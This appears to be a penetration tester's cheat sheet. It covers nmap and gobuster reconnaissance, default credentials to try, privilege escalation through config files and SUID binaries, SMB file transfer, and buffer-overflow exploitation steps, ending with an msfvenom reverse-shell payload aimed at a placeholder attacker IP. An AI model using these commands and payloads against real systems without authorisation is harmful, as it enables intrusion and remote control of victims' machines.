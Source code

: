 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Init contact
- nmap -sC -sV -oA \<name\> \<ip\>
- nmap -p- -sV \<ip\> > all-tcp
- nmap -sU \<ip\> > comm-udp
- nmap --script vuln \<ip\>

# http/https 80/443
- gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# snmp udp/161
- snmpwalk -c public -v1 <target>
- snmp-check -w -t 30 <target>

# priv esc
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => find / -perm -4000 2>/dev/null
- find all files in /home => find /home -type f

# manually test user pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# file 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) impacket-smbserver share \<shared path\>
  - (windows) net use z: \\\\<kali's ip\>\share
  - (windows) copy \<file\> z:

# gdb
- r < <(python exp.py)
  - (or 'set args' if take parameters)
- r < input.txt
- readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
- strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'
- p system => address of function system
- info functions => list all functions
- vmmap => find which part is executable.

# binary exploit steps (with immunity dbg)
1. find EIP overflow offset
    1. `msf-pattern_create -l 300`
    1. `msf-pattern_offset -q <value>`
1. test bad chars
1. !mona modules
    1. see modules and their security flags. we also need to make sure the module address doesn't contain bad chars.
1. click the "e" button to see the list of executable modules. Double click on one to view its assembly code.
1. find "jmp esp" commands
    1. right click -> search for -> command, then enter "jmp esp"(or others).
    1. right click -> search for -> sequence of commands, then enter "push esp", new line, "ret".
    1. if no DEP is enabled, we can search beyond the .text section where the "search for" commands focus. We can search other sections.
        1. `msf-nasm_shell` and enter "jmp esp", it says "FFE4"
        2. `!mona find -s "\xff\xe4" -m xxx.dll
1. place shellcode
    1. `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
